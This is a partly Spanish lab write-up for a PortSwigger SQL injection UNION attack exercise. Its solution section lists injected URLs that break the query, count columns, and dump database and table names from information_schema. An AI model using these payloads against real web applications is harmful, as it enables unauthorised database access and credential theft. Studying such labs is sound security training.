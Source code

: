 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Accessories

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Accessories' 

# Sanar el Query
https://666.web-security-academy.net/filter?category=Accessories' -- -

# Contando Columnas en la tabla que estoy (total = 2)
https:/666.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

## Opt1 - Dump: schema_name = DBs 
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
## Opt2 - Dump: schema_name = DBs
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT schema_name,'2' FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. pg_catalog]
    ### [DUMP = DB = 2. public]

## Opt1 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT  '1',table_name FROM information_schema.tables -- -
## Opt2 - Dump: table_name = Tables (TODAS)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
## Opt4 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT table_name,'2' FROM information_schema.tables WHERE table_schema = 'public' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]




````










